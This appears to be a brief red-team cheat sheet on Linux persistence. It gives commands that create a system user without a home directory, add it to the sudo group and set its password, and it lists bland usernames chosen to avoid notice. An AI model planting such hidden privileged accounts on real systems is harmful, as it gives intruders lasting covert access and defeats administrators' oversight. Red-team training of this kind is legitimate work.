 # Living off the Land

```
$ useradd -M -N -r -s /bin/bash admin

$ usermod -aG sudo admin

$ passwd admin
```

## 02 - User Accounts Examples

Here are the usernames that you can think of to create an account but be sure to come up your own to make it less obvious.

```
service
admin
oldadmin
linux
gnu
user
olduser
ftp
sftp
ssh
pi
p1
```

---
## References

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)